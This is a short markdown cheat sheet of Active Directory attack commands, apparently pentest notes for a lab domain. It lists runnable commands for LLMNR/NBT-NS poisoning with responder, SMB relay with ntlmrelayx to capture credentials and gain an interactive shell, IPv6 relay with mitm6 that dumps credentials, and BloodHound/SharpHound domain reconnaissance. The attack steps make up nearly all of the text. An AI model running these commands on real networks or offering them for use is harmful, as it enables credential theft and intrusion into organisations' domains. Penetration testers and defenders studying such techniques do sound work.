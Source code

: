 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md

## LLMNR/NBT-NS
```
responder -I eth0 -rdwv #Credential default capture settings
```

##  SMB Relay Attack
```
python3 /home/kali/.local/bin/ntlmrelayx.py -tf targets.txt -smb2support #Capture creds via SMB (Signing must be 'disabled/not required')

python3 /home/kali/.local/bin/ntlmrelayx.py -tf targets.txt -smb2support -i # Gain a interactive shell with "-i"
```

## IPv6 Attack
```
https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/

sudo mitm6 -d marvel.local #Run mitm6 first to IPv6 server

python3 /home/kali/.local/bin/ntlmrelayx.py -6 -t ldaps://192.168.68.122 -wh fakewpad.marvel.local -l lootme # Captures IPv6 request to capture & dump creds to lootme
```

## AD Recon

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#active-directory-attacks


### PowerView
```
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993 # Cheat Sheet
```

### Bloodhound
```
AzureHound for Azure Active Directory # Install-Module -name Az -AllowClobber | Install-Module -name AzureADPreview -AllowClobber

SharpHound for local Active Directory # run the collector on the machine using SharpHound

"Invoke-BloodHound -CollectionMethod All  -Domain <DomainName> -ZipFileName <file.zip>" # copy zip over to attack machine to run in neo4j DB

```


# **Loot**
